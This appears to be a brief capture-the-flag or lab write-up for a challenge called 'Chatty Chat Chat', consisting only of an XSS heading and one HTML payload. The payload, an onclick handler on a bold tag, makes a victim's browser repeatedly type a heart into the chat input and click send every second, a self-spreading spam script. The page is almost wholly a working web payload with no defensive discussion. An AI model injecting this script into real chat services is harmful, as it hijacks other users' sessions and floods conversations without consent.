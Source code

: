 # Chatty Chat Chat

## XSS

```html
<b onclick="function t() {document.getElementById('new-message-input').value = '❤️'; document.getElementById('send').click(); setTimeout(t, 1000);} t();">❤️</b>
```
